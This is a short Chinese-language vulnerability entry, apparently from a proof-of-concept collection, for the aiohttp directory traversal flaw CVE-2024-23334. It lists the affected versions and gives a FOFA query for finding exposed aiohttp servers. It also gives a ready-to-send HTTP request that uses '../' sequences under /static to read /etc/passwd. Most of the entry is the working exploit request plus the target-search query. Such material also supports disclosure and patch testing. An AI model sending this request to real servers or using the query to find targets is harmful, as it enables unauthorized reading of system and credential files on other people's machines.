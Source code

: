 ## aiohttp存在目录遍历漏洞(CVE-2024-23334)
aiohttp是一个Python的HTTP客户端/服务器框架，它基于asyncio库实现异步编程模型，可以支持高性能和高并发的HTTP通信。aiohttp用于编写异步的Web服务器、Web应用程序或HTTP客户端，以提供对Web和HTTP资源的访问和操作。近日监测到aiohttp目录遍历漏洞的漏洞情报,aiohttp使用选项"follow_symlinks"来决定是否跟踪静态根目录之外的符号链接。当"follow_symlinks "设置为 "True "时,将不会验证读取的文件是否在根目录内从而导致目录遍历，攻击者可以利用此漏洞访问系统上的任意文件。

## 版本
```
1.0.5 <aiohttp < 3.9.2
```

## fofa
```
app="aiohttp"
```

## poc
```
GET /static/../../../../../../etc/passwd HTTP/1.1
Host: xxxxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
![image](../../images/0488dc1b-6aaa-4a3e-91f3-1f64a6e69e89.png)
